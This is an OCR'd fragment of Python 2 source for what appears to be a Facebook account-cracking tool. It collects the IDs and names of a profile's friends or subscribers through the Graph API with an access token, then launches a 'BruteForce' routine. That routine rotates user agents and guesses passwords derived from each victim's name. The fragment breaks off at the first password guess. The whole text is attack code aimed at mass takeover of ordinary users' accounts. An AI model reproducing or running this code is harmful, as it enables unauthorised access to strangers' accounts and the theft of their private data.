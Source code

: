         for t in range(id_limit):
            t += 1
            idt = raw_input('\033[0m LINK OF ID : ')
            try:
                for i in requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token).json()['data']:
                    uid = i['id'].encode('utf-8')
                    na = i['name'].encode('utf-8')
                    id.append(uid + '|' + na)

            except KeyError:
                print '\x1b[91;1m  Invalid Link / Account Private '
            print '\033[1;92m   TOTAL IDS  : %s' % len(id)
    elif select == '2':
        os.system('clear')
        print logo
        print ''
        idt = raw_input(' \033[0mID LINK : ')
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print ''
            print '  Cloning from: ' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input(' Press enter to back')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/subscribers?access_token=' + token + '&limit=999999')
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + nm)

    elif select == '0':
        menu()
    else:
        print ''
        print '\tSelect valid option'
        print ''
        crack_select()
    print ' \x1b[1;91m  BruteForce Has Been Started'
    print ' \x1b[1;94m  Wait Ids Will Appear Here \033[0m'#Thanks TechQaiser
    print 45 * '_'
    print ''

    def main(arg):
        user = arg
        uid, name = user.split('|')
        ranagent = random.choice(agents)
        session = requests.Session()
        session.headers.update({'User-Agent': ranagent})
        try:
            pass1 = name.lower()